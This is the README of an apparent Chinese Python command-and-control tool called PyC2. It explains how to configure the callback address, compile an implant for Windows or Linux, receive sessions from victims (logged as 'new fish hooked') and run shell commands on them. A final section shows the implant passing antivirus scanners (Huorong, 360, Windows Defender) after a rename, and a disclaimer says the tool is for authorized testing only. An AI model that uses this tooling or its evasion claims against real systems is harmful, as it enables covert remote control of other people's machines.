 # python版简易Command and Control (C2) 

## 介绍

1. 使用socket建立网络传输
2. 解决了tcp粘包问题
3. 支持多个sessions切换
4. 跨平台支持windows/linux
5. 支持系统命令执行功能
6. 解决implant异常退出
7. 上线语音播报提示
8. 等等...

## 安装

环境

```
python >= 3.7
windows/linux
```

安装

````
git clone https://github.com/1derian/PyC2.git
cd PyC2
pip3 install -r requirements.txt
````

## 使用

编辑配置文件

```
vim settings.py

SERVER_LISTEN_IP = "127.0.0.1"  # c2server监听地址,如果是vps上使用,监听0.0.0.0,内网地址监听对应地址即可
SERVER_LISTEN_PORT = 7788       # c2server监听端口
AGENT_CONNECT_IP = "127.0.0.1"  # agent回连c2的ip地址
AGENT_CONNECT_PORT = 7788       # agent回连c2的端口
SERVER_LISTEN_NUM = 20          # c2server监听的个数
```

启动服务端

```
python3 pyc2server.py
```

由于python打包不支持跨平台编译 , 需要使用者在对应的平台上事先编译好

编译命令

```
windows
python3 gen.py -f implant.py -o implant.exe

linux
python3 gen.py -f implant.py -o implant
```

运行 implant , pyc2server收到对应的sessions链接

```
双击运行生成的 implant.exe

D:\PyC2>python3 pyc2server.py
[+](no_session) >新鱼上钩, 地址: ('127.0.0.1', 11142)

[+](no_session) >
```

查看sessions

```
[+](no_session) >sessions
1 ('127.0.0.1', 11142)
```

进入session , 并执行命令

```
[+](no_session) >sessions -i 1
('127.0.0.1', 11142)>whoami
win11\administrator
```

杀死 session

```
[+](no_session) >kill 1
[+](no_session) >sessions
当前sessions为空
```

查看帮助

```
[+](no_session) >help

        Command and Control (C2)

        sessions                          显示存活的session回话
        session -i *session id*           进入指定回话的shell,输入quite退出shell
        kill *session id*                 退出指定回话
        help                              打印帮助信息
        clear                             清空屏幕
        exit                              退出c2并关闭所有回话
```

清除当前终端内容

```
[+](no_session) > clear
```

退出pyc2server

```
[+](no_session) >exit

D:\PyC2>
```

## 免杀测试

文件名修改 implant.exe --> agent.exe

火绒

![image-20220605141817304](./images/1.png)

360

![image-20220605141848450](./images/2.png)

windows defender

![image-20220605141903936](./images/3.png)

## 免责声明🧐

本工具仅面向合法授权的企业安全建设行为，如您需要测试本工具的可用性，请自行搭建测试环境。

在使用本工具进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。请勿对非授权目标进行扫描。

如您在使用本工具的过程中存在任何非法行为，您需自行承担相应后果，我们将不承担任何法律及连带责任。
